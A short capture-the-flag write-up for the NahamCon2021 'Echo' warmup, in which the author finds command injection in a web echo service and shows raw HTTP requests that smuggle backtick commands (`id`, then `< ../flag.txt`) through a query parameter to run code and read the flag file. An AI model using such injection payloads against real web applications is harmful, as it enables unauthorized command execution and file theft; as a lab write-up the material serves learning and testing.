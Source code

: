 ```yaml
---
title: "NahamCon2021 CTF - Echo"
date: 2021-03-15T10:10:07+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

warmups - easy

## solution

The challenge URL had a web based echo service.

{{< figure src="/images/nahamcon/echo.png" >}}

Many special characters, except for `<` and ` were filtered. It took me a while but I found the param had command injection. For example:

```text
GET /?echo=`id` HTTP/1.1
Host: challenge.nahamcon.com:30074
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge.nahamcon.com:30074/?echo=food
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E
Upgrade-Insecure-Requests: 1
```

Would respond with:

```html
<html>
    <title>
        $Echo
    </title>
    <h1>$Echo</h1>
    <body>
        <form method="get" name="index.php">
            <input type="text" name="echo" id="echo" size="80">
            <input type="submit" value="Echo">
        </form>
    <h3>
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    </h3>

[...]
```

If you tried to run `cat ../flag.txt`, the server would respond with `Man that's a mouthful to echo, what even?`. I length check was implemented, so to get a smaller command, use `< ../flag.txt`.

```text
GET /?echo=`<%20../flag.txt` HTTP/1.1
Host: challenge.nahamcon.com:30074
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge.nahamcon.com:30074/?echo=food
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E
Upgrade-Insecure-Requests: 1
```

The flag is then returned.

```html
<html>
    <title>
        $Echo
    </title>
    <h1>$Echo</h1>
    <body>
        <form method="get" name="index.php">
            <input type="text" name="echo" id="echo" size="80">
            <input type="submit" value="Echo">
        </form>
    <h3>
    flag{1beadaf44586ea4aba2ea9a00c5b6d91}
    </h3>

[...]
```

